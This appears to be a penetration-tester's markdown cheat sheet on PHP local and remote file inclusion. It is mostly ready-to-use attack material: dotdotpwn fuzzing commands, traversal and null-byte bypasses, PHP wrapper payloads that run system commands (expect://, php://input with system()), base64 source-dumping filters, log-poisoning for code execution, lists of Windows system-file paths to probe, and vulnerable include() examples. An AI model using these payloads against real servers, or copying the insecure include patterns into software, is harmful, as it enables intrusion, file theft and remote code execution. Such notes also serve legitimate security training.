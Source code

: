 # php wrappers, LFI

## [dotdotpwn](https://github.com/wireghoul/dotdotpwn)

Note: preinstalled in latest kali iso. Works for `http, ftp, tftp`

```bash
dotdotpwn -h IP -m MODE -f FILE-TO-FUZZ -U USER -P PASS
```

## Workarounds

NOTE: **Read the file that is running LFI** to get more information about the code.

```bash
# using null byte %00
/etc/passwd%00

# LFI wordlist
/usr/share/seclists/Fuzzing/LFI/LFI-LFISuite-pathtotest.txt
```

## .php wrappers

```bash
# protocol wraper
file=http://IP/
file=ftp://IP/
file=//IP/smb-share/file

# expect wrapper
# allows to run system commands
file=expect://id

# input wrapper
file=php://input
# needs to send POST data
<?php system('id'); ?> | <?php shell_exec('id'); ?>

# filter wrapper
file=php://filter/convert.base64-encode/resource=PHP-FILE
```

## LFI to RCE (linux)

```bash
# using LFI can read access log files and then log poision
# if user does not have perms to read log files; can do file descriptor way
LFI=/proc/self/fd/{NUMBER}

# once have access to log file > log-poisoning.
```

## LFI Paths (windows)

```bash
# sample paths to test
C:\Windows\System32\Drivers\etc\hosts
C:\\Windows\\System32\\Drivers\\etc\\hosts
\Windows\System32\Drivers\etc\hosts
\\Windows\\System32\\Drivers\\etc\\hosts
C:\Windows\win.ini
C:\\Windows\\win.ini
\Windows\win.ini
\\Windows\\win.ini
C:\Windows\system.ini
C:\\Windows\\system.ini
\Windows\system.ini
\\Windows\\system.ini
```

## LFI PHP Code Analysis

```php
<?PHP 
	include($_GET["file"]);
?>
```

The above code block includes any value given to the file paramter.

```php
<?PHP 
	include("downloads/". $_GET['file']); 
?>
```

The above code block includes any value given to the file parameter as long as its in the downloads directory. To bypass
use `../../../<>`

```php
<?PHP 
	include("downloads/". $_GET['file'].php); 
?>
```

The above code block includes any value given to the file parameter as long as its in the downloads directory and
appends `.php` to the user input value. To bypass use `../../../<>` and value ending with `%00`.

When there is substitution for `../`, bypass using `....//` as it will convert to `../`

## RFI PHP Code Analysis

Requirement for RFI to work is `allow_url_fopen` and `allow_url_include`